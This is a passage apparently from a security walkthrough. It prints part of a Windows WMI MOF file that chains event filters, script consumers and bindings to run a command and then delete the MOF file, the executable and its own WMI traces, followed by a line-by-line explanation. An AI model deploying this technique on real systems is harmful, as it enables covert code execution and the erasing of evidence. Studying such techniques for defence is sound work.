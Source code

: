      36   ScriptText = "\nvar objfs = new ActiveXObject(\"Scripting.FileSystemObject\");\ntry {var f1 = objfs.GetFile(\"wbem\\\\mof\\\\good\\\\a.mof\");\nf1.Delete(true);} catch(err) {};\ntry {\nvar f2 = objfs.GetFile(\"@EXE@\");\nf2.Delete(true);\nvar s = GetObject(\"winmgmts:root\\\\cimv2\");s.Delete(\"__EventFilter.       Name='qndfilt'\");s.Delete(\"ActiveScriptEventConsumer.Name='qndASEC'\");\n} catch(err) {};";
     37 };
     38 instance of __EventFilter as $Filt
     39 {
     40   Name = "instfilt";
     41   Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClass12588\"";
     42   QueryLanguage = "WQL";
     43 };
     44 instance of __EventFilter as $Filt2
     45 {
     46   Name = "qndfilt";
     47   Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \"Win32_Process\" AND TargetInstance.Name = \"@EXE@\"";
     48   QueryLanguage = "WQL";
     49
     50 };
     51 instance of __FilterToConsumerBinding as $bind
     52 {
     53   Consumer = $cons;
     54   Filter = $Filt;
     55 };
     56 instance of __FilterToConsumerBinding as $bind2
     57 {
     58   Consumer = $cons2;
     59   Filter = $Filt2;
     60 };
     61 instance of MyClass12588 as $MyClass
     62 {
     63   Name = "ClassConsumer";
     64 }
    

Walking through that file, here are the interesting parts:

  * On line 2, define a class with a random name, `MyClass12588`. It’s quite simple, just has a name object.

  * On line 25, define an `ActiveScriptEventConsumer` and call it `$cons`. This script is responsible for running my yet to be defined command.
  * On line 32, define a second `ActiveScriptEventConsumer`, and call it `$cons2`. This script attempts to delete my mof file.
  * On line 38, define an `EventFilter`, and call it `$Filt`, which uses a query language called “WQL” to look for instance creation events for a objects of a class `MyClass12588`.
  * On line 44, define a second `EventFilter`, and call it `$Filt2`, which looks for a process creation with an instance name matching the to be defined process.
  * On line 51, define a `FilterToConsumerBinding`, call it `$bind`, and have it connect `$cons` and `$Filt`. So now, whenever an instance of `MyClass12588` is created, our code will run.
  * On line 56, define another `FilterToConsumerBinding`, call it `$bind2`, and have it connect `$cons2` and `$Filt2`. So now, whenever a process starts that matches our process, it will try to delete our mof file.
  * Now with all the dominos set up, on line 61, it creates an instance of `MyClass12588`, which starts the chain reaction.
